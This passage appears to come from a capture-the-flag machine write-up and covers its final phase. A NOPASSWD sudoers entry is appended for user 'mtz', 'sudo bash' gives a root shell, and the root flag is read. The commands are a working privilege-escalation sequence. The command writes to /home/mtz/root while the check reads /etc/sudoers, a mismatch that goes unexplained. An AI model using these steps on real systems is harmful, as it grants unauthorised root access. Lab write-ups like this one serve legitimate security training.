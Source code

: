 **Modifying the sudoers file:**

```bash
echo "mtz ALL=(ALL:ALL) NOPASSWD: ALL" >> /home/mtz/root
```

**Verifying the modification:**

```bash
cat /etc/sudoers | tail -1
```

**Escalating to root:**

```bash
sudo bash
```

### Exploitation Result

```bash
id
whoami
```

<div class="bg-gray-100 dark:bg-gray-800 p-4 rounded-lg my-4 font-mono text-sm">
    <div class="text-gray-700 dark:text-gray-300">
        uid=0(root) gid=0(root) groups=0(root)
    </div>
</div>

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold text-xl">
        <i class="fas fa-crown mr-2 text-amber-500"></i>
        ROOT SHELL OBTAINED\! Maximum privileges achieved.
    </p>
</div>

## 🏁 Phase 9 — Flag Extraction

### Root Flag Retrieval

With root access, we can now retrieve the root flag:

```bash
cat /root/root.txt
```

<div class="bg-gradient-to-r from-amber-500/10 to-yellow-500/10 p-6 rounded-xl border-l-4 border-amber-500 my-4">
    <div class="flex items-center gap-4">
        <div class="text-5xl text-amber-500">
            <i class="fas fa-trophy"></i>
        </div>
        <div class="flex-1">
            <h4 class="text-2xl font-bold text-amber-600 dark:text-amber-400 mb-2">Machine Pwned\!</h4>
            <p class="text-gray-700 dark:text-gray-300">
                <i class="fas fa-flag text-green-500 mr-2"></i><strong>User flag:</strong> /home/mtz/user.txt<br>
                <i class="fas fa-flag text-red-500 mr-2"></i><strong>Root flag:</strong> /root/root.txt
            </p>
        </div>
    </div>
</div>
